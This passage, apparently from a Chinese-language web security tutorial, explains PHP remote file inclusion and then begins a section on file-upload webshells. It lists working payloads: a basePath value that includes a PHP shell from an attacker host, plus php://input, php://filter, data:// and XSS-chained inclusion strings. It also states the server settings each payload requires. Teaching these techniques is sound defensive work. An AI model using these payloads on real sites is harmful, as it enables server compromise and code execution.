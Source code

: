 构造变量 `basePath` 的值。

```
/?basePath=http://attacker/phpshell.txt?
```

最终的代码执行了

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

- 普通远程文件包含

  ```
  ?file=[http|https|ftp]://example.com/shell.txt
  ```

  需要 `allow_url_fopen=On` 并且 `allow_url_include=On` 。

- 利用 PHP 流 input

  ```
  ?file=php://input
  ```

  需要 `allow_url_include=On` 。

- 利用 PHP 流 filter

  ```
  ?file=php://filter/convert.base64-encode/resource=index.php
  ```

  需要 `allow_url_include=On` 。

- 利用 data URIs

  ```
  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
  ```

  需要 `allow_url_include=On` 。

- 利用 XSS 执行

  ```
  ?file=http://127.0.0.1/path/xss.php?xss=phpcode
  ```

  需要 `allow_url_fopen=On`，`allow_url_include=On` 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。

## 文件上传

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传 WEB 脚本能够被服务器解析的问题，也就是所谓的 webshell 问题。完成这一攻击需要这样几个条件，一是上传的文件能够被 WEB 容器执行，其次用户能从 WEB 上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

### 绕过上传检查
